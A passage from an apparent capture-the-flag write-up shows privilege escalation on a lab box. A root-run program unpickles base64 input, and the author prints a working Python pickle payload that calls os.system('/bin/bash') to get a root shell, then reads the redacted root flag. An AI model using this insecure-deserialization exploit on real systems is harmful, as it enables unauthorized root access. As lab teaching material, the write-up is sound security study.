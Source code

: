 At this point, we can guess that it is probably trying to deserialize the base64-encoded data we give as input. Let us verify this hypothesis:

```
dill@ubuntu-xenial:~$ sudo /opt/peak_hill_farm/peak_hill_farm 
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow: gASVOwAAAAAAAABdlChLBYwEdGVzdJSMCGJ1aWx0aW5zlIwHY29tcGxleJSTlEdAAAAAAAAAAEdACAAAAAAAAIaUUpRlLg==
This grew to: 
[5, 'test', (2+3j)]
```

This is of course terribly unsafe!

9. The following code (recycled from [OWASP Top 10 room](https://tryhackme.com/room/owasptop10)) builds a poisoned input to spawn a shell as `root`:

```python
import pickle, base64

command = '/bin/bash'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```

Let us inject it:

```
dill@ubuntu-xenial:~$ sudo /opt/peak_hill_farm/peak_hill_farm
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow: **REDACTED**
root@ubuntu-xenial:~# cd /root
root@ubuntu-xenial:/root# ls -la
total 28
drwx------  4 root root 4096 May 18  2020 .
drwxr-xr-x 25 root root 4096 Jan  1 04:05 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 May 18  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--r-----  1 root root   33 May 15  2020  root.txt 
drwx------  2 root root 4096 May 15  2020 .ssh
```

10. For some reason, the `?root.txt?` filename starts and ends with unusual whitespace unicode characters ([UTF-8 e28080](https://www.fileformat.info/info/unicode/char/2000/index.htm)), but whatever, time to get the **root flag**!

```
root@ubuntu-xenial:/root# ls | hd
00000000  e2 80 80 72 6f 6f 74 2e  74 78 74 e2 80 80 0a     |...root.txt....|
root@ubuntu-xenial:/root# ls | xargs cat
**REDACTED**
```

Or, alternatively (character codes in octal):

```
root@ubuntu-xenial:/root# LC_ALL=C ls -b
\342\200\200root.txt\342\200\200
root@ubuntu-xenial:/root# cat $(printf '\342\200\200root.txt\342\200\200')
**REDACTED**
```
